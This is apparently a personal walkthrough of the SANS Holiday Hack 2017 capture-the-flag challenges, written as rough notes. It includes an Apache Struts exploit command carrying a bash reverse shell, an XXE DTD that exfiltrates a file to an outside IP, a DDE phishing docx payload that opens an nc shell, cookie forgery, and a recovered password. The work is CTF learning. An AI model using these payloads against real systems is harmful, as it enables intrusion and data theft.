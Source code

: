# CTF Main Challenges
This is a rough write of my notes while completing the challenge, he offical report is under Final Writeup section.

Attack Flow Summary of the challenges:
<p align="left"> 
<img src= "https://github.com/johnnymedina/Sans-HolidayHack-2017/blob/master/Images/51-final.png" width="50%">
</p>


## Challenge - 1 
Visit the North Pole and Beyond at the Winter Wonder Landing Level to collect the first page of The Great Book using a giant snowball. 
What is the title of that page?

#### To Solve:
Solved in Terminal Challenge 1 
My name is Bushy Evergreen, and I have a problem for you.I think a server got owned, and I can only offer a clue.We use the system for chat, to keep toy production running.Can you help us recover from the server connection shunning?

Find and run the elftalkd binary to complete this challenge.


## Challenge - 2 Apache Struts
Investigate the Letters to Santa application at  https://l2s.northpolechristmastown.com.
What is the topic of The Great Book page available in the web root of the server
On the Topic of Flying Animals

What is Alabaster Snowball's password?

#### To Solve:
```stream_unhappy_buy_loss```

<p align="left"> 
<img src= "https://github.com/johnnymedina/Sans-HolidayHack-2017/blob/master/Images/21-2.png" width="50%">
</p>
In Source Code of https://l2s.northpolechristmastown.com, found link to :
https://dev.northpolechristmastown.com/orders.xhtml running apache struts
https://github.com/mazen160/struts-pwn_CVE-2017-9805

 
```python struts-pwn.py --url 	'https://dev.northpolechristmastown.com/orders'```

<p align="left"> 
<img src= "https://github.com/johnnymedina/Sans-HolidayHack-2017/blob/master/Images/23-2.png" width="50%">
</p>

Then Used https://pen-testing.sans.org/blog/2017/12/05/why-you-need-the-skills-to-tinker-with-publicly-released-exploit-code 
from Hint which points to this tool to encode https://raw.githubusercontent.com/chrisjd20/cve-2017-9805.py/master/cve-2017-9805.py
downloaded python and used to send bash reverse shell 

<p align="left"> 
<img src= "https://github.com/johnnymedina/Sans-HolidayHack-2017/blob/master/Images/24-2.png" width="50%">
</p>

```bash -i >& /dev/tcp/54.202.232.184/80 0>&1"```
```python cve-2017-9805.py -u  'https://dev.northpolechristmastown.com/orders/' -c  "bash -i >& /dev/tcp/54.202.232.184/80 0>&1"```

<p align="left"> 
<img src= "https://github.com/johnnymedina/Sans-HolidayHack-2017/blob/master/Images/25-2.png" width="50%">
</p>
Success! got reverse shell on AWS instance


In Reverse shell went to `````/var/www/`````
found GreatBookPage2.pdf
https://l2s.northpolechristmastown.com/GreatBookPage2.pdf

<p align="left"> 
<img src= "https://github.com/johnnymedina/Sans-HolidayHack-2017/blob/master/Images/26-2.png" width="50%">
</p>

Pillaged to find dev files with password 

```ll -l /*/*```
searched for files owned by alabaster_snowballfound a few interested files but one matched the 'dev' hint.
```/dev/shm:file``` in that directory called test1.txtcat test1.txt 

Within that file a reference to a SQL :

```file/opt/apache-tomcat/webapps/ROOT/WEB-INF/classes/org/demo/rest/example/OrderMySql.class:3:           
final String username = "alabaster_snowball";
cat alabaster_snowball@l2s:/dev/shm$ 
cat /opt/apache-tomcat/webapps/ROOT/WEB-INF/classes/org/demo/rest/example/OrderMySql.class            
final String username = "alabaster_snowball";            
final String password = "stream_unhappy_buy_loss";
```
Tried the creds and logged into SSH:
```ssh alabaster_snowball@35.227.95.239```

<p align="left"> 
<img src= "https://github.com/johnnymedina/Sans-HolidayHack-2017/blob/master/Images/27-2.png" width="50%">
</p>

confirmed password with successful login!

## Challenge 3 -SMB

The North Pole engineering team uses a Windows SMB server for sharing documentation and correspondence. 
Using your access to the Letters to Santa server, identify and enumerate the SMB file-sharing server. 
hhc17-smb-server.c.holidayhack2017.internal (10.142.0.7)

What is the file server share name?
FileStor

For hints, please see Holly Evergreen in the Cryokinetic Magic Level.

#### To Solve:

<p align="left"> 
<img src= "https://github.com/johnnymedina/Sans-HolidayHack-2017/blob/master/Images/28-3.png" width="50%">
</p>

From ec2 instance and tunneling through Letters to Santa :

```ssh -C -D 1080 alabaster_snowball@35.227.95.239```

<p align="left"> 
<img src= "https://github.com/johnnymedina/Sans-HolidayHack-2017/blob/master/Images/29-3.png" width="50%">
</p>

Did some recon:
```nmap 10.142.0.0/24 -sn```
<p align="left"> 
<img src= "https://github.com/johnnymedina/Sans-HolidayHack-2017/blob/master/Images/30-3.png" width="50%">
</p>

didnt reveal the SMB server

```nmap 10.142.0.0/24  -PS445 (HINT from Holly Evergreen)```

<p align="left"> 
<img src= "https://github.com/johnnymedina/Sans-HolidayHack-2017/blob/master/Images/31-3.png" width="50%">
</p>

revealed a new IP of 10.142.0.7 with 445 open 

hhc17-smb-server.c.holidayhack2017.internal (10.142.0.7)

```proxychains smbclient -L 10.142.0.7 -U alabaster_snowball```



```Enter WORKGROUP\alabaster_snowball's password: 
Sharename       Type      Comment
---------       ----      -------
ADMIN$          Disk      Remote Admin
C$              Disk      Default share
FileStor        Disk      
IPC$            IPC       Remote IPC

Reconnecting with SMB1 for workgroup listing.
```

FileShare name is FileStor

```proxychains smbclient \\\\10.142.0.7\\FileStor -U alabaster_snowball```

<p align="left"> 
<img src= "https://github.com/johnnymedina/Sans-HolidayHack-2017/blob/master/Images/32-4.png" width="50%">
</p>

From there was able to get GreatBookPage3.pdf

## Challenge 4 - Mail Cookie
Elf Web Access (EWA) is the preferred mailer for North Pole elves, available internally at http://mail.northpolechristmastown.com. 
What can you learn from The Great Book page found in an e-mail on that server?
Find a NPC conversation with Bumble and SAM. Abominable Snow Monster is throwing snowballs.
Rise of the Lollipop Guild – Group of spys working to undermine Elves

Pepper Minstix provides some hints for this challenge on the There's Snow Place Like Home Level.

#### To Solve:

From EC2 Kali Instance:
```ssh -C -D 1080 alabaster_snowball@35.227.95.239```

Used proxychains again to setup a tunnel and broswer through Firefox
```
nano /etc/proxychains.conf
make sure it set to 1080
proxychains firefox
```

Recon on the website:

<p align="left"> 
<img src= "https://github.com/johnnymedina/Sans-HolidayHack-2017/blob/master/Images/37-4.png" width="50%">
</p>
mail.northpolechristmastown.com (10.142.0.5)
```
http://10.142.0.5/robots.txt
http://10.142.0.5/cookie.txt
http://10.142.0.5/orders.xhtml
```
<p align="left"> 
<img src= "https://github.com/johnnymedina/Sans-HolidayHack-2017/blob/master/Images/38-4.png" width="50%">
</p>

alabaster.snowball@northpolechristmastown.com

Found site to encrpt to AES256 and used https://aesencryption.net/


<p align="left"> 
<img src= "https://github.com/johnnymedina/Sans-HolidayHack-2017/blob/master/Images/39-4.png" width="50%">
</p>

Create AES256 string using
``
string: thisistheencrypt
Key:1234
AES256: y0MBQ642b8EM5psdSpS03Q==
``

final cookie should look like this
```
{"name":"alabaster.snowball@northpolechristmastown.com","plaintext":"","ciphertext":"y0MBQ642b8EM5psdSpS03Q=="}
```
<p align="left"> 
<img src= "https://github.com/johnnymedina/Sans-HolidayHack-2017/blob/master/Images/40-4.png" width="50%">
</p>

Found email with Greatbook page from holly Everygreen
```
f192a884f68af24ae55d9d9ad4adf8d3a3995258  
```

## Challenge 5 - JSON
How many infractions are required to be marked as naughty on Santa's Naughty and Nice List? 
4 infractions

What are the names of at least six insider threat moles?
Filter data for hair pulling, rock throwing, wedgy giving
Nina, Bini, Sheri, Wesley, Kristy, Boq

Who is throwing the snowballs from the top of the North Pole Mountain and what is your proof?
Infractions for rock throwing were Bini and Boq

#### To Solve:

Go to website https://nppd.northpolechristmastown.com/infractions?query=name%3A*

<p align="left"> 
<img src= "https://github.com/johnnymedina/Sans-HolidayHack-2017/blob/master/Images/41-5.png" width="50%">
</p>

Craft request to returns all of the names (status:*)

Used https://json-csv.com/ to convert json to csv

Analyze the names and compare to document taken from challenge 3 smb server
naughty and nice list.csv

Looked at BOLO-MunchkinMoleReport.docx taken from smb server and see that all moles were charged with 'aggravated hair pulling' and search for term 'hair pulling' in list of names taken from NPPD site


## Challenge 6 - XXE
6The North Pole engineering team has introduced an Elf as a Service (EaaS) platform to optimize resource allocation for mission-critical Christmas engineering projects at http://eaas.northpolechristmastown.com. 
Visit the system and retrieve instructions for accessing The Great Book page from C:\greatbook.txt. 

Then retrieve The Great Book PDF file by following those directions. 
What is the title of The Great Book page?

The Dreaded Inter-Dimensional Tornadoes

#### To Solve:
```
ssh -C -D 1080 alabaster_snowball@35.196.147.148
proxychains firefox
http://10.142.0.13
http://10.142.0.13/XMLFile/Elfdata.xml
```
downloaded the example xml:
http://10.142.0.13/Home/DisplayXML
http://10.142.0.13/Home/CreateElfs

Use the Elfdata.xml give to inject XXE to get file and Create Evil.dtd:
```
<?xml version="1.0" encoding="UTF-8"?><!ENTITY % stolendata SYSTEM "file:///c:/greatbook.txt"><!ENTITY % inception "<!ENTITY &#x25; sendit SYSTEM 'http://54.202.232.184:80/?%stolendata;'>">
Add into Elfdata.xml the XEE payload 
<!DOCTYPE demo [<!ELEMENT demo ANY >ENTITY % extentity SYSTEM "http://54.202.232.184:80/evil.dtd">%extentity;%inception;%sendit;]>
```
<p align="left"> 
<img src= "https://github.com/johnnymedina/Sans-HolidayHack-2017/blob/master/Images/44-6.png" width="50%">
</p>

<p align="left"> 
<img src= "https://github.com/johnnymedina/Sans-HolidayHack-2017/blob/master/Images/43-6.png" width="50%">
</p>
Upload the edited Elfdata.xml to site

On EC2 start simple python server:
```
python -m SimpleHTTPServer 80
```
In response we get:
```
35.185.118.225 - - [18/Dec/2017 14:57:13] "GET /evil.dtd HTTP/1.1" 200 -
35.185.118.225 - - [18/Dec/2017 14:57:13] "GET /?http://eaas.northpolechristmastown.com/xMk7H1NypzAqYoKw/greatbook6.pdf HTTP/1.1" 200 -
```
Now we know locate of the greatbook6.pdf
Visit the website at http://eaas.northpolechristmastown.com/xMk7H1NypzAqYoKw/greatbook6.pdf 

Download the Greatbook6.pdf 

## Challenge 7 - Phishin
Like any other complex SCADA systems, the North Pole uses Elf-Machine Interfaces (EMI) to monitor and control critical infrastructure assets. These systems serve many uses, including email access and web browsing. 

Gain access to the EMI server through the use of a phishing attack with your access to the EWA server. 
Retrieve The Great Book page from C:\GreatBookPage7.pdf. 

What does The Great Book page describe?
Regarding the Witches of Oz


#### To Solve:
```
SSH -C -D 1080 alabaster_snowball@35.196.147.148
```
setup browser to proxy traffic through 127.0.0.1 1080 socks proxy

Visit site EWS site at http://10.142.0.5/account.html

<p align="left"> 
<img src= "https://github.com/johnnymedina/Sans-HolidayHack-2017/blob/master/Images/48-7.png" width="50%">
</p>

Use cookie login bypass method from Challenge 4

Login  as jessica.claus@northpolechristmastown.com and write email to alabaster.snowball@northpolechristmastown.com
create a new docx with the following formula:
```
{DDEAUTO c:\\windows\\system32\\cmd.exe "/k nc 10.142.0.11 10443 -e cmd.exe"}
```
<p align="left"> 
<img src= "https://github.com/johnnymedina/Sans-HolidayHack-2017/blob/master/Images/49-7.png" width="50%">
</p>

Attach docx to email 
start listener on server you just sshed tunnelled into 
```
nc -lvp 10443
```
send email
Get CMD reverse shell!

Now you can go to directory C:\ to find GreatBookPage7.pdf

<p align="left"> 
<img src= "https://github.com/johnnymedina/Sans-HolidayHack-2017/blob/master/Images/50-7.png" width="50%">
</p>

Start netcat listners on EMI server that servers up file
```
C:\>nc-lvp 9999 < GreatBookPage7.pdf
```
Proxychain from my host kali through the SSH tunnel to new listener on EMI server to download file locally :
```
proxychains nc 10.142.0.8 9999 > GreatBookPage7.pdf
```
Grabbed File and ran a shasum on it to get:
```
8b887dcc477fdd544ca84b874285283046adb720
C1DF4DBC96A58B48A9F235A1CA89352F865AF8B8
```

BUT Shasums were wrong

Had to reopened GreatBookPage7.pdf in text editor and found that the proxychains added in a line, which through off shasum
saved and re-executed shasum to get correct value
```
c1df4dbc96a58b48a9f235a1ca89352f865af8b8
```



